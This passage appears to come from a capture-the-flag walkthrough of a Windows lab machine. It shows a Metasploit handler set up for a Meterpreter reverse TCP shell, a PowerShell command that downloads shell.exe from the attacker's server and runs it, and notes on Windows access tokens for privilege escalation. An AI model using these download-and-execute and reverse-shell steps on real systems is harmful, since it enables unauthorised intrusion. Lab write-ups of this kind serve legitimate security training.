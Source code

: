 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST tun0
LHOST => 10.8.14.151
msf5 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

```cmd
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.14.151:8888/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> ./shell.exe
```


# root
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:
- user SIDs(security identifier)
- group SIDs
- privileges

There are two types of access tokens:
- primary access tokens: those associated with a user account that are generated on log on
- impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:
- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system
